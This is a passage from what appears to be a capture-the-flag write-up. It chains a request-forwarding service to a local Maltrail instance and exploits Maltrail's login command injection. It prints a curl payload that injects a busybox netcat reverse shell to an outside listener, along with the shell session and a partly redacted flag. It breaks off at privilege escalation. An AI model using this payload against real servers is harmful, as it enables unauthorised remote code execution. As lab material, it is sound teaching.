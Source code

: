 `Maltrail` is [vulnerable](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) to command injection up to version 0.54. If you send a POST request with an OS command, this will be executed by the server.
## Exploitation
We can now link these two vulnerabilities to exploit the server. First, we create a new bucket (let's call it `test`) that redirect to `http://localhost/` and we "Expand Forward Path". Now, if we make a request to `http://10.129.229.26:55555/test`, we get the interface of `Maltrail`:
```
$curl http://10.129.229.26:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
        <title>Maltrail</title>
        <link rel="stylesheet" type="text/css" href="css/thirdparty.min.css">
        <link rel="stylesheet" type="text/css" href="css/main.css">
        <link rel="stylesheet" type="text/css" href="css/media.css">
        <script type="text/javascript" src="js/errorhandler.js"></script>
        <script type="text/javascript" src="js/thirdparty.min.js"></script>
        <script type="text/javascript" src="js/papaparse.min.js"></script>
    </head>
    <body>
        <div id="header_container" class="header noselect">
            <div id="logo_container">
                <span id="logo"><img src="images/mlogo.png" style="width: 25px">altrail</span>
[...]
```
We can also try to log with a POST request:
```
$curl http://10.129.229.26:55555/test/login --data 'username=toto'
Login failed
```
We can change the username by an OS command. I used [Reverse Shell Generator](https://www.revshells.com/) to craft a reverse shell command. I started by listening connection locally with `nc -lvnp 8000` and I run the following command:
```
$curl http://10.129.229.26:55555/test/login --data 'username=;`busybox nc 10.10.14.59 8000 -e sh`'
```
I get a shell:
```
$nc -lvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.229.26] 37770
pwd
/opt/maltrail
```
I can now read the flag:
```
cd /home
ls
puma
cd puma
ls
user.txt
cat user.txt
e[...SNIP...]e
```
## Privilege escalation
We will use `linpeas.sh` to get information about the host. I already downloaded the script. I can set an HTTP server on my host to make it downloadable from the target:
```
```